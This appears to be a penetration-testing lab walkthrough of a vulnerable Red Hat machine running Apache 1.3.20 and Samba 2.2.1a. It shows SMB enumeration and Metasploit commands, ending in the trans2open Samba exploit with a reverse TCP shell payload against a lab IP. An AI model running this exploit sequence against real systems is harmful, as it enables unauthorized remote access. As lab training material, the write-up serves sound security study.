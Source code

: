 #### HTTP Service (Port 80)
- **Response Header**: Apache/1.3.20 (Unix)
- **Details**: "Test Page for the Apache Web Server on Red Hat Linux".
- Observed **TRACE method** support (insecure practice).

#### Samba (Port 139)
- Enabled anonymous access to SMB shares.
- Confirmed version as `Samba 2.2.1a`.


---

### 2. SMB Enumeration
```bash
# List SMB shares
smbclient -L 192.168.1.9
```
# Results:
```plaintext
# - IPC$ (IPC Service)
# - ADMIN$ (IPC Service)
# - Workgroup: MYGROUP
```
---

### Exploitation: Gaining Access
- **Approach**: Exploit Samba Vulnerabilities.

#### Using Metasploit
1. Search for applicable exploits:
   ```bash
   search samba
   ```
---

### 3. Metasploit Exploitation
```bash
# Version detection
1- search smb_version
2- use auxiliary/scanner/smb/smb_version
3- show options
4- set RHOSTS 192.168.1.9
5- run
```
# **Result :
```
[*] 192.168.1.9:139       -   Host could not be identified: Unix (Samba 2.2.1a)
[*] 192.168.1.9:          -   Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
# **Exploit execution**
```
1- use exploit/linux/samba/trans2open
2- search generic/shell
3- set PAYLOAD generic/shell_reverse_tcp
4- show options
5- set RHOSTS 192.168.1.9
6- run
```